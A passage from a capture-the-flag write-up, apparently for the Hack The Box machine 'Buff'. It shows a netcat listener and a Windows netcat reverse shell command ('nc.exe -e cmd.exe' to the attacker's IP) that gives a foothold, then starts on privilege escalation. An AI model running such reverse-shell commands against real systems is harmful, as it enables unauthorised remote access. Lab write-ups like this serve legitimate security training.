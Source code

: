 First let's set up a listener in our machine using NetCat by entering the following command. I am setting the listener in port 9001.

`nc -nvlp 9001`

```
 -n : using IPv4 address 
 -p : port number
 -l : listening mode
 -v : verbose mode
```

![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Buff/listener.png)

Now let's do the magic. Enter the following command in the RCE shell

`nc.exe -e cmd.exe <your tun0 IP address> <port number>`

![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Buff/foothold.png)

and press enter.....and boom we get a shell.

![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Buff/footholdshell.png)

## **Privilege Escalation**

When i am writing this writup the ratio of (root:user) solves are very less. People are easily getting user shell but having a hard time getting root shell. So let's start out journey to get the shell flag.

So in the last section we got a proper shell in the machine. Now let's enumerate and try to search for something worth. After spending some time i get a executable file inside the `Downloads` folder of user `shaun`

